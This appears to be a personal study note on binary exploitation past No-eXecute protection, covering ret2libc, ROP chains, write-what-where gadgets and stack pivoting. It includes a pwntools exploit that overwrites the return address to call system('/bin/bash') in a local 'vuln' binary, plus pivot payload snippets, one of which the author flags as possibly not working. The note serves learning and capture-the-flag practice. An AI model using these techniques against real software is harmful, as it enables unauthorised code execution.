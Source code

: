 # No eXecute

## ret2libc

Check if the target binary is using `libc` with the following commands:  
`ldd <binary>`  
or  
`vmmap` - when inside gdb  

List functions provided by your systems libc:  
`nm -D /lib/$(uname -m)-linux-gnu/libc-*.so | grep -vw U | grep -v "_" | cut -d " " -f 3`  

libc, or any other library, is a list of functions that reside at a known offset from the library base.  
If you know the library base and the library version, you will also know the target function's address.  

*NX prevents execution from the stack but having arguments there is fine*  

Steps to exec a function in libc:  
1. find interesting function to spawn a shell (System, Exec* (execl, execle, execlp, execve, execve, etc...))
2. Set up the stack
3. Overwrite EIP/RIP with the functions address

Stack setup:  
1. Offset to EIP
2. Address of the target function
3. Return address to be restored after executing the function, i.e. exit() (or anything if we don't care about a graceful exit)
4. Arguments for the target function

### System() Example
No ASLR  
---

From the man pages:  
`int system(const char *cmd);`  

Find system()'s offset from the libc base  
`readelf -s /lib/i386-linux-gnu/libc.so.6 | grep "system"`  
The address provided in the second column is the offset  
Open gdb while debugging the target binary and run: `vmmap libc`. Choose one which has "x" permissions  
Add the system() offset and the executable libc base to find system()'s address.  

If the above does not work, an alternative is `p system` in gdb.  
*repeat for exit() if looking to exit gracefully*  

System() requires a pointer to the string as an argument, not the string itself. Need to find "/bin/bash" or similar in the binary.  
In gdb: `search /bin` to find instances of shells  
Try to use addresses from libc  

**Example exploit:**  

```python3
#!/usr/bin/env python3
from pwn import *
io = process("./vuln")
offset = b"A" * 520
target_func = p64(0x7ffff7e17330)   # system @ 0x7ffff7e17330
ret_addr = p64(0x7ffff7e09590)    # exit @ 0x7ffff7e09590
sys_arg = p64(0x7ffff7f61031)   # Argument to system() "/bin/bash" @ 0x7ffff7f61031

payload = offset + target_func + ret_addr + sys_arg
print(payload)

io.sendline(payload)
io.interactive()
```

If you need to pass as a command line arg you can use `(cat payload.txt; cat) | ./vuln`  

## ROP Chains

Pwntools ROP documentation: <https://docs.pwntools.com/en/latest/rop/rop.html>  
<https://github.com/Gallopsled/pwntools-tutorial/blob/master/rop.md>  
Stephen Sims - Return Oriented Shellcode (SANS SEC760 Content)  
<https://www.youtube.com/watch?v=7BMyVvYv5d0>  
Automate finding gadgets <https://github.com/packz/ropeme>  

Overflow a buffer to control the EIP/RIP.  
From the EIP/RIP onwards, place the address of the instructions you are using and any values that need to be popped into registers, followed by an `int 0x80` to switch to kernel mode and execute the system call.  

You can view the available gadgets in a program with `ropper`  
E.g. `ropper -f vuln` to view all of the gadgets in a binary.  


**Calling execve():**  
- AL register needs to hold 0x0b
- BX register needs to hold a pointer to your arg for the system call
- CX register points to the arg vector ARGV pointer array
- DX register points to the ENVP array (Environment Variable Pointer)

If the program has an mmap() function, you need to find rop gadgets **after** the mmap() has occurred to ensure the gadgets do exist in memory.  
- You can then use `ltrace` to view the address where mmap is mapped and add instuction offsets
- Validate by hitting a breakpoint in gdb and addid the 2 values, then `x/i $addr`

## Write What Where

Gadgets that allow you to store data in memory, i.e. create a pointer to an argument.  
 
E.g.  

```asm
# Basic and best example
mov [rdi], rsi; ret;

# Alternative:
xchg byte ptr [rdi], bl; ret;
```

## Writeable Locations

Find writable sections with `readelf -S -W ./vuln`  
Use pwntools to reference section addresses:  
```python
from pwn import *
context.binary = elf = ELF("./vuln")
print(elf.symbols)
```

**.data** stores initialised variables.  
The address of .data can be found with:  
```python
from pwn import *
context.binary = elf = ELF("./vuln")
data_section = elf.symbols.data_start
```

**.bss** stores uninitialised variables.  
The address of .bss can be found with:  
```python
from pwn import *
context.binary = elf = ELF("./vuln")
bss_section = elf.symbols.__bss_start
```

## Stack Pivoting

Gadgets to control ESP/RSP:  

```asm
pop rsp; ret;               # Unlikely, but great

xchg <reg>, rsp; ret;       # Just need to control the register in question:
# eg.
pop <reg>; ret;
<reg value>
xchg <reg>, rsp; ret

leave; ret;                 # These are everywhere
```

leave; ret; explanation:  
`leave` is equivalent to `mov rsp, rbp; pop rbp;`  
So a `leave; ret;` looks like `mov rsp, rbp; pop rbp; pop rip;`  
That means that when we overwrite RIP, the 8 bytes before it overwrite RBP (4 bytes for ESP)  
If we then call `leave; ret;` again, RBP is moved into RSP, thus giving us control over the stack location.  

### Example "leave; ret;" Payload

*Note: Not sure if this works.*  

```python3
from pwn import *
rop.raw([
    b"A" * rbp_offset, # rip control - 8 (4 for 32bit)
    new_stack_addr,
    leave_ret,
])
```

### Example "xchg rax, rsp; ret;" Payload

Using a simple `xchg` instruction where we control the register that is exchanged with esp.  
*This doesn't cover finding a new stack location*  

```python
from pwn import *

xchg = p32(0x0804882e) # 0x0804882e: xchg eax, esp; ret;
pop = p32(0x0804882c) # 0x0804882c: pop eax; ret;

payload = flat([
  pop,
  leaked_addr,
  xchg
])
```

### Example "sub esp, 0x20"

If you don't have much space for a rop chain, eg. only 4 or 8 bytes are overflowed out of the buffer,  
you can utilise a `sub esp, 0x20`, or similar to move the stack pointer lower in memory,  
where you have additional ROP gadgets.  
Use ROP gadgets in your offset data rather than just junk alone.  
